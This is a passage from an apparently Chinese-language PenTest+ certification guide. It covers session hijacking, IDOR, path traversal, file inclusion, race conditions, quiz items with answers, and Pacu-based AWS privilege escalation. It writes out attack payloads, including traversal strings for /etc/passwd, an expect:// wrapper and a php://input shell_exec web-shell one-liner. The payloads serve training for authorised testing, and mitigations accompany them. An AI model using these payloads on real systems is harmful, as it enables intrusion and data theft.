当客户端向服务器发出后续请求时，Cookie 值将伴随每个请求。在某些情况下，渗透测试人员可能需要逆向工程 Cookie 以确定 Cookie 是如何生成或受保护的。某些 Web 框架可能会对 Cookie 进行签名或编码（即 base64 编码值）以对其进行混淆，防止其在传输过程中被篡改。在开发人员使用自己的会话 ID 的情况下，如果随机性和复杂性未充分应用于生成算法中，Cookie 值可能被操纵以识别有效会话，这意味着应用程序可能容易受到暴力破解攻击。

现在让我们演示这种攻击类型，通过操纵 Cookie 值从服务器窃取合法会话。我们将使用 OWASP WebGoat-Legacy 项目（`https://github.com/WebGoat/WebGoat-Legacy`）针对会话管理缺陷“劫持会话”示例进行测试。攻击的第一部分将收集足够的 Cookie 样本进行分析，以确定 Web 框架的 Cookie 生成方案。然后，我们将创建一个有效的 Cookie（Cookie 操纵）来实施攻击。

使用随机用户名和密码登录后，系统提示你使用了“无效的用户名或密码”。然而，应用程序提供了另一个名为 WEAKID 的 Cookie，其值为 `WEAKID=17280-1531178283601`。经过一些挖掘，我们能够破译出 Cookie 的第一部分 `17280` 是一个顺序号，每次我们销毁会话并尝试重新登录时，它都会增加一位数字。Cookie 的第二部分似乎是一个毫秒级的时间戳（根据文档）。

登录和登出约五次后，我们知道无法轻易猜出该数字。因此，我们求助于 Burp Sequencer，它可以帮助生成足够的 Cookie 值来猜测现有的会话 Cookie。我们拦截发往应用程序的登录请求，然后将请求转发给 Sequencer。在 Sequencer 中，我们确保选择 Cookie 选项，如 图 5-8 所示。


**图 5-8** Burp Sequencer 令牌位置


然后我们点击**开始实时捕获**按钮。我们等待直到获得相当大的令牌样本后，再停止捕获过程。一旦我们拥有超过 2,000 个令牌，就点击**停止**按钮来停止捕获过程，然后点击**保存令牌**将令牌保存到文件中以供离线分析。接着，我们使用**排序器**并点击**手动加载**选项卡。从这里，我们使用**加载**按钮加载刚才保存的文件中的令牌，如图 5-9 所示。


**图 5-9** 排序器中样本令牌的手动加载

从列表顶部开始，我们立即注意到 17283 和 17285 之间的数字有间隙。由于这一序列中断，我们非常确定已经有一个针对 17284 的令牌被签发了，而这并不在我们的列表中。因此，我们在 **Burp** 中查找，并将原始登录会话转发到 **Repeater**，在那里我们可以操纵 Cookie 值以尝试劫持会话。在用缺失的令牌值测试我们的猜想后，我们发现该会话有效，并且根据服务器的响应消息，我们成功劫持了一个现有会话，如图 5-10 所示。当然，除了猜测会话 ID，你也可以利用某种中间人攻击拦截它并重放。


**图 5-10** 在 Burp 中劫持会话

现在你已经了解会话劫持的工作原理，应该知道几条最佳实践。首先，当用户注销时，会话应当失效。其次，Web 应用程序应在认证时分配一个新的会话 ID。在第一种情况下，你可以利用会话劫持在用户注销后接管一个已认证的会话（只要会话尚未过期）。在第二种情况下，你可以进行所谓的会话固定攻击，这意味着你可以在应用程序中设置好会话 ID，发送一个恶意链接给用户，而应用程序将允许在用户会话期间使用该会话 ID。如果发生这种情况，你就能利用你生成并知晓的会话 ID 有效地获取其认证访问权限。

##### 数据泄露和不安全配置

Web 应用程序服务器如果配置不当或缺乏良好的安全卫生习惯（如补丁管理），很可能成为攻击目标，这并不令人意外。正如第 4 章所述，产品供应商的默认账户密码通常可以在开源字典中找到，就像我们全书一直在使用的那些，以及 **Kali Linux** 中 `/usr/share/wordlists` 目录下的字典。在撰写本书时，**CIRT** 密码列表（[`cirt.net/passwords`](https://cirt.net/passwords)）（**CIRT** 是臭名昭著的 **Nikto** Web 应用程序扫描工具的开发者）列出了 500 多个不同供应商使用的 2,080 多个默认密码。这些账户旨在用于初始设置和配置。大多数情况下，供应商会建议禁用该账户，或者至少更改默认密码。**Apache Tomcat**（[`tomcat.apache.org`](http://tomcat.apache.org)）是一款用于托管和部署基于 Java 的 Web 应用程序的知名开源产品。

在该软件的早期版本中，**Tomcat Manager** Servlet（Servlet 是一种 Java 程序，用于扩展服务器的通信能力，例如接收消息和发送响应，主要使用 **HTTP**）被用来部署和管理这些应用程序。**Tomcat** 附带启用了 Manager 应用程序，以及众所周知的默认用户名和密码 `tomcat/tomcat`。这些凭据已被反复利用来攻陷组织系统；然而，为了缓解这一常见威胁，**Apache Tomcat** 开始发布默认禁用 Manager 应用程序的产品安装版本。至少在开箱即用的状态下，产品稍微安全一些，现在随着将其作为 **Software as a Service (SaaS，软件即服务)** 解决方案部署的能力，开发人员和系统管理员在安装弱点方面应该少一些担忧。

**OWASP** 建议攻击者通常会尝试利用未修补的缺陷/漏洞，或访问默认账户、未使用的网页、未受保护的文件和目录等，以获取对系统的未授权访问或了解。示例攻击场景可能包括：应用程序安装了默认插件或账户/密码，糟糕的访问控制允许访问 Web 根目录（存放公开可访问的 Web 文件和目录的最顶层目录）之外的文件，甚至应用程序显示详细的错误消息（例如堆栈跟踪），这可能会泄露已知存在漏洞的 Web 组件版本。在本节中，我们将介绍其中几种攻击方法，包括路径遍历、敏感数据泄露和薄弱的访问控制。

###### 薄弱的访问控制

一旦用户登录并通过认证，Web 服务器（或 Web 应用程序）应配置为根据访问控制策略，限制用户可访问的内容。访问控制策略基于最小权限原则，定义了如何管理和控制对资源访问的要求。一个例子是 **Apache HTTP Server** 根据主机名或 IP 地址限制对 Web 目录的访问，因为网站上的某些内容可能不供公众使用。在 `httpd.conf` 文件（**Apache HTTP** 配置文件）中，可能会应用以下限制，以允许私有 IP 地址访问 Web 服务器上的 `restricted` 文件夹，而拒绝其他任何人的访问：


**提示** **Apache HTTP Server** 使用模块来实现其内部的特定功能。模块是服务器能力的扩展。例如，`mod_authz_host` 模块可用于根据 IP 地址控制对服务器上目录、文件和位置的访问，而 `mod_ftp` 模块可用于允许用户使用 **FTP** 下载或上传文件。**Apache** 的核心发行版包含许多模块；不过，它还支持许多默认未安装的模块。你可以在 [`httpd.apache.org/modules`](http://httpd.apache.org/modules) 查看 **Apache HTTP Server** 支持的模块列表。

如果 Web 服务器缺少这种级别的访问控制，任何浏览到 `/restricted` 文件夹内页面的用户都能访问其内容。另一个关于 **Apache** 需要考虑的问题是，目录索引（或目录浏览）默认是启用的。此功能类似于 **Unix** 中的 `ls` 命令或 **Windows** 中的 `dir` 命令。在启用了目录浏览且缺乏访问控制的情况下，攻击者不必依赖暴力方法来推导网页和/或子目录。图 5-11 显示了 `/admin` 目录的目录索引示例。


**图 5-11** 目录索引

为了缓解此问题，你可以在希望禁用目录浏览的目录中添加一个 `index.html`（如果 HTML 文件为空，攻击者将看到空白页面），或者你可以从 **Apache HTTP** 配置文件中针对给定目录或整个网站移除 `Indexes` 选项。用于控制内容显示的 Web 访问控制，与控制 Web 应用程序内部敏感对象或信息的不必要泄露同等重要。

################ 敏感数据泄露


################ 敏感数据泄露

应用程序缺陷并不总是编程错误，而是数据或信息受保护方式上的弱点。某些类型的信息，如密码、信用卡号、社会安全号码、健康和隐私信息，需要特定级别的保护。正如我们在前几章所学，加密是一种可用于保护此类数据机密性的方法。然而，如果保护机制的实现配置错误或不充分，针对该漏洞的攻击可能是灾难性的。OWASP 提供了三种敏感数据泄露的攻击场景：

*   **场景 #1** 一个应用程序使用自动数据库加密在数据库中加密信用卡号。然而，检索时该数据会自动解密，这使得 SQL 注入缺陷能够以明文形式检索信用卡号。
*   **场景 #2** 一个站点未对所有页面使用或强制使用传输层安全性 (TLS)，或者它支持弱加密。攻击者监控网络流量（例如在不安全的无线网络上），将连接从 HTTPS 降级为 HTTP，拦截请求，并窃取用户的会话 Cookie。然后攻击者重放此 Cookie 并劫持用户的（已认证）会话，访问或修改用户的私有数据，或者攻击者可以篡改所有传输的数据（例如，修改资金转账的接收人）。
*   **场景 #3** 密码数据库使用未加盐或简单的哈希来存储所有人的密码。一个文件上传缺陷允许攻击者检索密码数据库。所有未加盐的哈希都可以通过预计算哈希的彩虹表暴露。由简单或快速哈希函数生成的哈希可能被图形处理单元 (GPU) 破解，即使它们已经加盐。

敏感数据泄露也可能以错误消息或对内部函数的引用形式出现，这些信息无意中泄露了请求的真实性质。这被称为不安全的直接对象引用 (IDOR)。一个例子是将数据库记录（如主键）作为 Web 参数或 URL 中的引用对象暴露出来。IDOR 本身不是漏洞；然而，如果数据库或应用程序服务器缺乏适当的访问控制，攻击者很可能推断出被引用对象的模式或模式。例如，如果外键值通过 Web 参数直接调用，一个已经通过认证进入系统的恶意用户可以修改该参数以访问另一个用户配置文件的内容。为了演示，我使用了 OWASP WebGoat 项目的 Web 应用程序 Goat Hills Financial Human Resources，并以用户 Tom 的身份登录以访问用户 Eric 的配置文件数据。使用 Burp Proxy，我拦截了操作 ViewProfile 的 HTTP GET 请求，以识别请求中传递的参数，如图 5-12 所示。


**图 5-12** 拦截 IDOR 参数

我注意到参数 `employee_id=105`，这看起来像是一个直接对象指针，且对用户 Tom 是唯一的。使用 Burp Repeater，我修改了该参数并重放了 HTTP GET 请求，但这次请求 `employee_id=104`，以查看该字段是否为增量型。提交请求后，我成功检索到了 Eric 的配置文件，如图 5-13 所示。


**图 5-13** 修改 IDOR 参数

如果 IDOR 参数被隐藏或混淆，会使这种攻击难以成功一些，或者可能不那么明显。无论如何，此问题直接源于糟糕的访问控制，最终依赖 Web 和数据库服务器正确验证此类请求。

###### 目录和路径遍历

目录和路径遍历攻击是一种注入攻击形式，它使恶意行为者能够通过使用快捷方式浏览 Web 服务器根文件夹之外的内容，从而访问正常情况下不可用的内容。使用 Pentester Labs 网站提供的 Web for Pentester ISO 中的目录遍历示例，我们可以演示这种类型的攻击。给定以下 URL：

`http://192.168.1.108/dirtrav/example1.php?file=hacker.png`

`file=` 参数用于检索名为 hacker.png 的图像。如果我们查看使这成为可能的 PHP 代码，可以了解后台发生了什么：


`$UploadDir` 变量标识操作系统上的绝对路径为 `'/var/www/files/'`，这是 hacker.png 文件所在的位置。`$file` 变量通过 `$_GET['file']` 方法定义，该方法从 `file=` 参数解析文件名。`$path` 变量声明文件在服务器上应位于的完整路径。如果 `$path` 不存在，则请求为空。然后 `$handle` 以读取模式（'rb'）打开文件路径。do-while 循环用于读取文件变量，最大块大小为 8192 字节。如果长度为 0，程序中断；否则，读取文件内容并输出到 Web 浏览器。然后使用 `fclose()` 函数在退出程序前关闭文件。

那么，现在让我们测试该参数是否容易受到路径遍历攻击。为了测试这一点，我们可以用 `/../../../../../etc/passwd` 替换 hacker.png 来访问本地操作系统的 passwd 文件，该文件通常不作为网页提供服务。正斜杠和点号告诉 Web 操作在路径中向后遍历多个目录，这很像终端窗口中的“cd”更改目录命令。然而，在 Windows 中，斜杠是反斜杠而不是正斜杠，用于分隔文件路径中的目录（例如，`\..\..\..\C:\boot.ini`）。在 Windows 中，目录分隔符（“/”或“\”）可以是正斜杠也可以是反斜杠。然而，在 Unix 中，只能是正斜杠（“/”）。这意味着在 Windows 中，要绕过或逃避仅查找恶意请求中“/”的 Web 内容过滤器，可以使用另一种目录分隔符。正如你在图 5-14 中所见，针对 Unix 目标的目录遍历攻击成功了。


**图 5-14** 使用 Burp 进行目录遍历


**提示** 测试路径遍历攻击时有许多变体可用。这主要涉及对目录路径进行编码或启动正确的转义序列以突破典型的 Web 过滤器。为了绕过查找特殊字符（如正斜杠）的简单内容过滤器，攻击者可能会使用 Unicode/UTF-8 甚至 URL 编码，例如：`%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd` 来达到相同的结果。

路径遍历之所以成功，是因为没有程序逻辑来防止访问 Web 根目录之外的文件。缓解路径遍历的一种方法是在 PHP 代码中对 `$file` 变量使用 basename（基本名称）处理。这将返回 `$file` 的尾部名称组件，任何尝试访问 `$UploadDir` 之外文件的行为都将失败。在代码中实现此功能的示例如下：

```
$file = basename($_GET['file']);
```


**注意** 从表面上看，可能很难区分文件包含漏洞（LFI 和 RFI）与路径或目录遍历。主要区别在于：遍历攻击只能读取本地资源的内容（例如 `/etc/passwd`），而文件包含则可以在应用程序上下文中加载并执行资源，这可能提供代码执行能力。

################ 敏感数据泄露


不使用加密来保护存储或传输中数据的应用程序，或实施弱加密或有风险加密实践的应用程序，也可能给客户端带来风险。某些基于合规性的渗透测试对加密使用的评估有特定要求。有风险的做法示例包括：使用未加盐的哈希、实施弱哈希算法（如 `MD5`）的哈希，或在检索数据时自动解密数据的应用程序（这允许 `SQL` 注入缺陷暴露所有数据）。通过未加密协议（未强制执行 `TLS`）或使用弱加密方案传输敏感数据，可能会导致数据在成功的中间人攻击中面临潜在暴露风险，例如通过不安全的无线网络。

在中间人攻击期间，可能需要设置代理服务以强制从客户端请求中剥离安全套接字层（`SSL`），这样当客户端连接到启用了 `SSL` 的网站时，证书将从会话中被剥离，浏览器窗口将不会显示任何 `SSL` 证书消息。本质上，`HTTPS` 网站被降级为 `HTTP`。一旦用户在 `SSL` 被剥离时尝试登录或向网站输入敏感数据，数据将以明文形式发送，并可轻松在会话数据中被捕获。为了缓解此类攻击，网站可以强制执行 `HTTP` 严格传输安全（`HSTS`）以防止降级攻击，如 `SSL` 剥离。组织还可以在防火墙层面阻止 `80/tcp` 端口，或强制网站/应用程序仅在启用 `SSL` 的端口上运行。

###### 包含攻击

在网页中加载任意内容的能力称为包含攻击。大多数 Web 应用程序框架（如 `PHP`）支持文件包含。文件包含漏洞利用利用了 Web 应用程序中的“动态文件包含”功能。在 `PHP` 应用程序中，这些漏洞通常利用使用以下内置函数的代码缺陷：`include()` 和 `require()`。文件包含分为两种：本地文件包含（`LFI`）和远程文件包含（`RFI`）。

本地文件包含包含 Web 根目录之外的文件，并将本地操作系统文件的内容渲染到浏览器窗口中，例如密码文件：`example.php?page=../../../../etc/passwd`。在某些情况下，`LFI` 可能导致远程代码执行。测试远程代码执行的一种方法是使用 `PHP` 封装器。`PHP Expect` 封装器允许执行系统命令：`example.php?page=expect://id`；但是，`Expect` 封装器默认未启用。另一个 `PHP` 封装器是输入流，它允许从请求体读取原始数据。在 `HTTP POST` 消息的情况下，可以使用以下示例对本地操作系统执行命令：

```
POST /example.php?page=php://input&cmd=id HTTP/1.1
```

在消息体中，可以使用以下将被读取并通过 `PHP` 输入流处理的 `PHP` 代码：

```
<?php echo shell_exec($_GET['cmd']);?>
```

`cmd` 命令将通过 `shell_exec()` 函数执行，在本例中返回拥有 Web 服务器进程的用户的用户 ID。

远程文件包含允许在易受攻击的网页中显示文件甚至整个页面。如果 `HTTP` 请求中的参数可以被修改为指向恶意位置，则该 Web 应用程序可能容易受到 `RFI` 攻击，进而可能允许在服务器或客户端上运行恶意代码（即窃取 Cookie 数据的恶意 `JavaScript`）。`RFI` 攻击示例可能如下所示：


`LFI` 和 `RFI` 都是危险的方法，可以通过正确使用输入验证来缓解。利用 Web 应用程序糟糕的输入验证和内容控制的另一种方式是执行恶意文件上传。如果 Web 应用程序允许未授权用户上传文件并执行它，攻击者可能会危害系统。支持各种 Web 脚本语言（如 `PHP`）的 Web 服务器很容易成为后门 Shell 的受害者。控制文件上传位置的访问权限和控制支持的文件类型是缓解此类漏洞的方法。有时只需要一个简单的 `PHP` 单行代码！图 5-15 提供了一个使用 `PHP` Web Shell 执行 Linux `id` 命令的示例。用于开发 Web Shell 的代码如下：


**图 5-15** 恶意文件上传


###### 竞争条件

当两个或多个应用程序逻辑组件具有相互依赖的数据，缺乏适当的并发保护，并同时执行时，会发生竞争条件。结果是，快速执行可能会检索到在检查时和执行时之间已更改的数据。简而言之：当事务并发运行时，应用程序可能会自我破坏。

竞争条件的一个示例是多个线程在没有锁定数据或同步的情况下同时访问相同的数据（变量、文件等）。当处理管理余额或发放代金券或基于货币的资源（如礼品卡）的应用程序时，这种数据完整性问题非常重要。

通常，Web 服务器会从客户端获取请求并提供页面。但更复杂的 Web 应用程序会增加层级。浏览器可能会向服务器发出请求，服务器可能会将其发送到 `Java Server Pages`（`JSP`），后者将其编译为 Servlet，然后在其中解释并执行以生成响应详细信息。在此过程中，应用程序可能会使用多线程来跨多个应用程序、系统或应用程序组件扩展这些请求。如果每个组件不能正确处理线程安全，则可能攻击该应用程序并产生意外结果。通常，渗透测试人员会通过深入了解源代码来发现这些问题，因为这些问题很难（但并非不可能）使用像 `Burp Intruder` 这样的工具来识别。但让我们花一点时间考虑一下那个用例。

假设你有一个可以将余额从一张卡转移到另一张卡的应用程序，并且你可以在 `Burp Intruder` 中捕获 `POST` 请求。`Intruder` 有一个选项可以将线程数提高到 25 左右。默认值是 5。这将允许你发送许多同时请求。你甚至不一定需要更改载荷，因此可以使用空载荷按原样发送请求。现在，如果存在竞争条件，应用程序最终可能会产生意外结果。例如，余额可能变为负数，因为一张卡的值在上一笔交易完成之前已成功扣除并存入。

### 章节回顾


Web 和数据库技术在大多数组织中发挥着重要作用。几年前，仅拥有一个网站就足以在竞争激烈的市场中立足，并让客户群了解贵公司的业务。如今，企业正投入更多时间和精力在 Facebook、Twitter、Instagram 和 LinkedIn 等社交媒体网站上建立影响力，以便与数字世界保持连接。在当今世界，企业可以将部分数据中心迁移到云端，以削减年度运营成本并实现更高水平的系统可用性。组织必须评估其内部的 Web 和数据库安全性，因为数字时代无疑已经到来。针对基于 Web 技术的攻击不再仅限于服务端。更复杂的攻击正瞄准最终用户，因为大多数客户端漏洞利用相当简单、所需精力极少，且攻击者获利颇丰。只要收益大于被抓获的风险，攻击者就会继续寻找新方法来利用基于 Web 技术的进步。

################ 问题

**1.** 您渗透测试团队的一名成员试图在 MySQL 数据库中插入一条恶意记录，该记录将执行一些概念验证代码以从用户的 Web 浏览器窃取 Cookie。然而，`INSERT` 语句无法执行。查看以下语法，错误的可能原因是什么？


**A.** 第二列的值缺少引号。

**B.** `INSERT` 语句缺少第四列的值，且该列不能为空。

**C.** 其中一个字段值超过了大小限制。

**D.** `INSERT` 语句没有错误。

**2.** 如果被攻破的数据库用户拥有管理员权限（如 root）或提升的特权，且数据库配置了 `sys_exec()` 和 `sys_eval()` 函数，则用户定义函数可有助于在渗透测试期间实现命令执行。

**A.** `sys_eval()`

**B.** `system_eval()`

**C.** `exec_sys()`

**D.** `sys_udf()`

**3.** 鉴于以下 URL，哪两种方法可用于针对 Web 参数中的数据库测试 SQL 注入？（选择两项。）

`http://example.com/page.php?id=1&acct=162;jsessionid=567323456798`

**A.** `?id=1'&acct=144;jsessionid=567323456798`

**B.** `?id=1'&acct=162';jsessionid=567323456798`

**C.** `?id=1;--&acct=162;jsessionid=567323456798`

**D.** `?id=1'&acct=144';jsessionid=567323456798`

**4.** 您遇到一个需要有效用户名和登录认证的 Web 页面。您决定使用 CeWL 利用从网站派生的内容构建自己的字典。该网站有许多页面，您决定从 index.html 页面开始，深入网站五层页面，以识别最小长度为八个字符的单词。哪些命令选项将帮助您构建所需的字典？

**A.** `-d 5 -8`

**B.** `-w 8 -d 5`

**C.** `-m 8 -d 5`

**D.** `-a 8 -d 5`

**5.** 在测试运行在 Windows Server 2016 上的 Web 应用程序时，您发现一个 Web 参数存在路径遍历漏洞。以下哪项将是演示路径遍历攻击的最佳选择？

**A.** `?id=C:\Windows\system32\etc/passwd`

**B.** `?id=../../../../C:/Windows/etc/passwd`

**C.** `?id=%20.%20C:/Windows/boot.ini`

**D.** `?id=..\..\..\..\C:/Windows/boot.ini`

**6.** 以下哪些是有效的客户端攻击？（选择所有适用项。）

**A.** 点击劫持

**B.** 命令注入

**C.** 目录遍历

**D.** 反射型 HTML 注入

**E.** 基于 DOM 的 XSS

**F.** 会话劫持

**7.** 文档对象模型 (DOM) 在用户 Web 浏览器中的作用是什么？

**A.** 在浏览器中构建内容结构

**B.** 向其他实体传递消息

**C.** 存储以“#”号开头的加密值

**D.** 帮助缓解 XSS 攻击

**8.** 以下 PHP 代码的用途是什么？


**A.** 创建一个循环来输出 `$data` 的内容，直到其长度达到 0

**B.** 创建一个循环，声明 `$data`，并验证变量的大小

**C.** 创建一个循环来输出数据内容

**D.** 创建一个循环，但如果数据小于 8192 字节则终止进程

**9.** 鉴于以下 URL，以下哪些选项可能是 IDOR？（选择所有适用项。）

**A.** `http://example.com/index.php?emp_id=12345`

**B.** `http://example.com/index.php`

**C.** `http://example.com/sales.php?acct=4532345`

**D.** `http://example.com/profile.php?state=CA&zip=90001`

#### 答案

**1.** **B.** `INSERT` 语句缺少第四列的值。`INSERT` 语句中标识的每一列都需要有一个字段值。如果其中一个字段是必填字段，则不允许该字段为空，例如空值。

**2.** **A.** `sys_eval()` 和 `sys_exec()` 函数必须在数据库服务器上配置，以便创建用户定义函数 (UDF)，这最终可能导致以拥有该进程的操作系统用户的权限对操作系统执行命令。

**3.** **B, D.** “`'`”、“`--`”和“`;`”绝对都是帮助触发缺乏应用程序或数据库过滤的数据库返回错误响应的方法。

**4.** **C.** `-d` 选项用于指定遍历网站的深度，`-m` 用于指定工具识别的单词的最小长度。

**5.** **D.** 最佳答案是 D，因为它可以帮助绕过基本的正斜杠内容过滤器，并有可能显示 boot.ini 文件的内容。

**6.** **A, D, E, F.** 除命令注入和目录遍历外，所有答案均正确。这类攻击针对的是服务端漏洞。

**7.** **A.** 运行时，应用程序会将 DOM 传递下来，以帮助在浏览器中构建内容结构。DOM 模块可能包含可在用户浏览器中本地执行的 JavaScript 代码。

**8.** **B.** PHP 代码通过读取 `$handle` 的 8192 字节来声明 `$data` 变量。然后，如果 `$data` 的长度等于 0，脚本将终止或继续输出 `$data` 的内容并完成循环。

**9.** **A, C.** “`acct=`”和“`emp_id=`”参数某种程度上是明显的线索，因为它们可能关联到另一用户的信息，而这些信息可能在没有 Web 应用程序或数据库必要访问控制的情况下被检索。

## 第 6 章

### 攻击云环境

在本章中，您将了解

- 对云技术执行攻击，如凭证收集、权限提升和账户接管
- 识别配置错误的云资产
- 使用专门的云攻击工具进行云攻击

与网络、移动和应用程序渗透测试一样，云渗透测试正迅速成为一门独特的学科。CompTIA PenTest+ 考试认可这一点，并可能包含测试您该学科知识的题目。在本章中，我们将尝试涵盖足够多的该学科内容以助您通过认证考试，但我们鼓励您对此领域进行更多研究，以真正建立您的专业知识。


#### 云渗透测试注意事项

在第 1 章中，我们讨论了适用于云渗透测试的特殊环境注意事项。让我们更深入地了解这意味着什么。常言道：“没有云，只有别人的电脑。”这是一种幽默但并不完全不准确的软件即服务（SaaS）模型描述，在该模型中，最终用户并不拥有被测试的环境。由于最终用户只能提供对其拥有的内容进行测试的许可，这意味着传统的渗透测试方法无法使用。例如，在 Amazon Web Services (AWS) 中，针对 SaaS 环境的法律和技术限制禁止测试物理硬件、底层操作系统以及属于其他组织的 EC2 环境——即使它们被目标利用，或者是 Amazon 的小型关系数据库服务 (RDS)。


**注意** Microsoft Cloud 的交战规则见 [`www.microsoft.com/en-us/msrc/pentest-rules-of-engagement`](https://www.microsoft.com/en-us/msrc/pentest-rules-of-engagement)，AWS 规则见 [`aws.amazon.com/security/penetration-testing/`](https://aws.amazon.com/security/penetration-testing/)，Google Cloud 规则见 [`support.google.com/cloud/answer/6262505?hl=en`](https://support.google.com/cloud/answer/6262505?hl=en)。

因此，云渗透测试——至少对于 SaaS 环境而言——将侧重于评估用户拥有的资产。这包括凭证和其他授权密钥、用户提供的用于管理权限的配置、API 使用情况，以及由应用程序所有者而非云提供商创建的其他功能。错误配置可能会暴露托管在云环境中的数据，并允许侧信道攻击、接管以及利用存在于该环境中或依赖该环境的资产。实现不安全的服务可能容易遭受攻击，导致目标容易受到拒绝服务 (DoS) 攻击，甚至被用于发起 DoS 攻击。这只是云渗透测试可能的攻击面的一个小范围调查。

请记住，有许多云提供商，每个提供商实施云服务的方法都不同。这些方法上的差异将影响你使用的工具以及你如何应用本章涵盖的概念。在大多数情况下，谈论云意味着我们在谈论三大主要提供商（Amazon、Microsoft 和 Google），因此我们将坚持讨论这三家，以涵盖云渗透测试概念，为你在 CompTIA PenTest+ 考试期间进行基本场景分析做准备。

#### 账户和权限攻击

许多组织迁移到云是为了保护环境的简便性。然而，事实证明，大多数云提供商拥有大量角色以允许用户执行任务。当事情出问题时，用户往往最终获得比必要更多的特权，以便轻松修复。此外，云账户具有与企业账户相同的一些弱点，因为它们仍然使用凭证。虽然云提供商可能为 Web 界面提供多因素认证，但这些不一定是最常见的攻击向量。

大多数情况下，成功的云攻击归咎于被泄露的基于 API 的凭证材料。对于 AWS，这可以是 SSH 密钥、访问密钥和密钥。对于 Azure，这可以是凭证、密钥或证书。Google 甚至提供自定义认证方法。但所有这些凭证往往都存储在某处。因为它们是以编程方式使用的，所以可能没有被安全存储，并且经常最终出现在不该出现的地方。一旦这些被泄露，身份和访问管理 (IAM) 方案中的错误配置可能导致权限提升或账户接管，使攻击者获得对云账户的完全管理访问权限。

##### 凭证收集

因此，凭证收集是云环境的主要攻击向量之一。有不同的方法，但最常见的一种是挖掘源代码仓库。在第 2 章中，我们提到了在 GitHub 内部使用搜索功能，但云攻击是这些战术的一个关键应用领域。`Gitleaks` ([`github.com/zricethezav/gitleaks`](https://github.com/zricethezav/gitleaks)) 和 `truffleHog` ([`github.com/trufflesecurity/truffleHog`](https://github.com/trufflesecurity/truffleHog)) 等工具可能不会出现在考试中，但它们是专门为在 Git 仓库中查找密码和密钥等机密而构建的。利用这些机密获得对云环境的初始访问权限或提升权限，可能是在攻击云环境时最容易的切入点。

由于这些凭证通常用于自动化脚本，它们并不总是作为提交给仓库的一部分被清理。它们可能被意外包含，并且即使被发现，也可能存在于仓库历史记录中。一些持续集成/持续部署 (CI/CD) 管道可能出于对这些问题的认识，将这些搜索工具集成到其流程中。

除了云认证，联合认证变得越来越普遍。联合认证采用组织认证并使用安全断言标记语言 (SAML) 创建认证令牌，然后将其提供给云服务。然后，云提供商可以解密该令牌并评估其中的认证信息。从组织共享的信息是已签名的 SAML 断言 ([`saml.xml.org/assertions`](http://saml.xml.org/assertions)) 的一部分。

有了联合认证，企业凭证变得更有价值。2021 年针对 Microsoft Azure 认证的密码喷射攻击有所增加 ([`www.secureworks.com/research/undetected-azure-active-directory-brute-force-attacks`](https://www.secureworks.com/research/undetected-azure-active-directory-brute-force-attacks))。这些喷射攻击是有益的，因为它们可以让攻击者获得组织内的某级访问权限，从而使提权、网络钓鱼和其他攻击变得更容易。

##### 提权

与典型环境非常相似，云环境在获得初始立足点后的下一步是提升权限。首先，你需要弄清楚你拥有什么特权和角色。这是 Rhino Security Labs 的 `Pacu` ([`github.com/RhinoSecurityLabs/pacu`](https://github.com/RhinoSecurityLabs/pacu)) 的主要目标之一。`Pacu` 可以帮助识别云资源、错误配置等。在本例中，我们将导入一些可能在内部仓库中发现的密钥。我们将尝试使用它们进行权限提升。

如果未安装 `Pacu`，安装说明在 `Pacu` 的 GitHub 上。首先，我们需要启动 `Pacu` 并创建一个新会话来存储我们的数据。每个会话都维护一个关于你发现的信息的数据库。这些数据可以被查询并用于帮助在 `Pacu` 内部做出模块决策。`Pacu` 由 Python 编写，仅支持 AWS 云基础设施。如果你安装了 Python 3.6 或更高版本且安装了 `pip`，可以运行命令 `pip install pacu` 来安装该工具。


**考试提示** `Pacu` 是一个用于 AWS 云环境的开源 Python 利用框架。你可以用它在云中进行侦察、权限提升、横向移动、利用和规避。`Pacu` 实现了模块来执行诸如枚举用户、角色、资源、Lambda 数据和 S3 存储桶；识别提权路径和错误配置；执行注入；以及在云中获得持久化等操作。

安装好 `Pacu` 后，切换到 `pacu` 目录并创建一个新会话。在我们的例子中，我们将创建一个名为 `ptplus` 的会话。


###### 接下来，导入密钥

这可能来自存储在你配置文件中的 AWS 凭证文件。在 Kali 中，这位于 `~/.aws` 下的 `credentials` 文件中。凭证集的名称就是你要导入的内容。在本例中，我们导入 `ptplus` 密钥。


###### Pacu 模块

Pacu 按类别列出其支持的模块。这包括：

- 枚举
- 提权
- 数据渗出
- 规避
- 侦察
- 利用
- 持久化

要列出支持的模块，可以使用 `ls` 命令。


让我们列出一些关于 AWS 账户的基本信息，以便验证密钥是否工作以及我们是否设置正确。模块通过 `run` 或 `execute` 命令运行。如果卡住了，可以使用 `help`。运行 `aws__enum_account` 模块。


我们已经验证了密钥可用于访问实例，并完成了一些基本枚举。让我们尝试一些提权操作。首先，我们将通过使用 `iam__enum_permissions` 命令填充数据库来查明我们拥有哪些权限。这将列出来自 AWS IAM 服务的权限。


我们的 `ptplus` 用户确实拥有角色。但我们只是让 Pacu 列出与我们用户相关的信息——而不是特定角色。我们本可以让它同时列出角色。`iam__privesc_scan` 模块将根据需要运行额外的检查。我们这里不必这样做，但运行上一个模块确实告诉我们可以列出自己的权限。这表明我们可以更好地识别可能的提权载体。没有这种能力，我们将不得不求助于其他侦察或攻击活动来寻找提权机会。


此时，我们已经使用 Pacu 识别出它认为可用于提权的策略。它将这些识别为潜在或已确认。一旦识别完成，Pacu 将针对其识别出的攻击选项提出具体问题。在本例中，`CreateNewPolicyVersion` 攻击将询问使用哪个策略。你可以直接按回车键，让它为你选择一个理想的策略。


现在我们可以枚举其他用户和策略，以确定它们拥有什么访问权限。此信息让我们能够确定其他用户、角色、持久化机会以及账户接管策略。


枚举完成后，我们可以使用 `data` 命令从 Pacu 数据库查询有关服务、配置等的信息。在本例中，我们将列出从 IAM 数据库发现的用户信息。


我们希望利用我们在 IAM 和其他服务中的访问权限，转移到一些计算资源中。AWS 的基础设施即服务 (IaaS) 产品称为弹性计算云 (EC2)。EC2 资源在启动时可能会使用特定于资源的 userdata blob 进行初始配置。Pacu 可以查询此数据并将其保存到文件供我们使用。


在本例中，Pacu 已识别出一个在 blob 中拥有用户数据的实例。但 Pacu 没有足够的信息来自动提取它。它将使用 `ec2__enum` 模块收集所需数据，以便能够提取请求的 blob。


现在我们已经下载了数据，可以退出 Pacu 稍后恢复会话。我们需要的数据将存储在本地用户目录下的 `~/.local/share/pacu/<SessionName>` 中。让我们对该文件运行 `cat` 并查看用户数据。


